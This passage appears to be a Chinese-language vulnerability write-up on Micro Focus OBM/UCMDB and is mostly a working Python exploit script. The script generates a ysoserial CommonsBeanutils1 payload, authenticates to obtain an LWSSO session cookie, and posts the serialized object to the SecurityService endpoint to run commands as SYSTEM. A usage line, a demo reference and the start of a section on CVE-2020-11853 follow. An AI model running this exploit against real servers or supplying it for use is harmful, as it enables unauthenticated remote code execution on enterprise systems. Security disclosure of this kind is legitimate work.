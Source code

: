 ```
os.system("java -jar %s CommonsBeanutils1 '%s' > /tmp/payload.ser" % (ysoserial, command))

url_base = "https://%s:8443/ucmdb-ui" % (rhost)

url_login = url_base + "/cms/loginRequest.do;?customerID=1&isEncoded=false&user
print("[*] Authenticating to %s" % (url_login))
ses = requests.Session()
res = ses.post(url_login, verify=False)

auth = None
for cookie in res.cookies.items():
    if cookie[0] == "LWSSO_COOKIE_KEY":
        auth = cookie

if auth == None:
    print("[-] Failed to authenticate and obtain LWSSO_COOKIE_KEY")
    exit(1)
else:
    print("[+] We are now authenticated and obtained our LWSSO_COOKIE_KEY!")

# SecurityService is used here, but any of the other 37 endpoints can be used
url_pwn = url_base + "/services/SecurityService"
print("[*] Sending ysoserial payload to %s" % (url_pwn))

headers = {'content-type': 'application/x-java-serialized-object'}
with open('/tmp/payload.ser', 'rb') as payload:
    res = ses.post(url_pwn, headers=headers, data=payload, verify=False)
    if res.status_code == 500:
        print("[+] Success, your command has been executed!")
    else:
        print("[-] Something went wrong, please try again...")
```

用以下方式运行利用代码。

python3 ucmdbPwn.py 10.10.10.99 ysoserial-master-SNAPSHOT.jar calc.exe

...... 将导致 calc.exe 在运行 OBM 的 Windows 主机中以 SYSTEM 的形式执行，10.10.10.99：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV12oQHay11l64GR1OspcakdPVk6lBsTp1txcXBIOicf8UTY0slF9QdjaEGRIhLQicIDreibeyRib9icgsQ/640?wx_fmt=png)

Linux 和 Windows 版本的 OBM 都受到这个漏洞的影响。下面的 asciinema cast 显示了 Linux 版本的 OBM 上的漏洞利用情况：

演示视频：https://asciinema.org/a/376442

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV12oQHay11l64GR1Ospcakdzm4kZo3EcsSLfGGsdlU50km1mBYVPNibMrDpwicGUbfWM6h0DBIRo4gg/640?wx_fmt=png)

**3：RegistrationServlet 中不安全的 Java 反序列化**

CWE-502。不受信任数据的解串联

CVE-2020-11853 / ZDI-20-1327

风险分类。危急
